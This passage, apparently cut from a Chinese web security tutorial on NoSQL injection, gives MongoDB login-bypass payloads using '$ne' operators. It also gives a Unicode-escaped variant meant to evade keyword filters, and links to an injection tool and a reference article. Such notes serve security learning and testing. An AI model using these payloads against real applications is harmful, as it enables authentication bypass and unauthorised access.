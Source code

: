 - 发送 JSON 格式的 Payload：`{"username":{"$ne":1},"password": {"$ne":1}}`
- 在处理 MongoDB 查询时，经常会使用 JSON 格式将用户提交的数据发送到服务端，如果目标过滤了 `$ne` 等关键字，可以使用 Unicode 编码绕过，这是因为 JSON 可以直接解析 Unicode

```sql
{"username":{"\u0024\u006e\u0065":1},"password": {"\u0024\u006e\u0065":1}}
// {"username":{"$ne":1},"password": {"$ne":1}}
```

# Nosql 注入相关工具
- [项目地址](https://github.com/youngyangyang04/NoSQLAttack)

# 参考文章
- [文章地址](https://whoamianony.top/2021/07/30/Web%E5%AE%89%E5%85%A8/Nosql%20%E6%B3%A8%E5%85%A5%E4%BB%8E%E9%9B%B6%E5%88%B0%E4%B8%80/)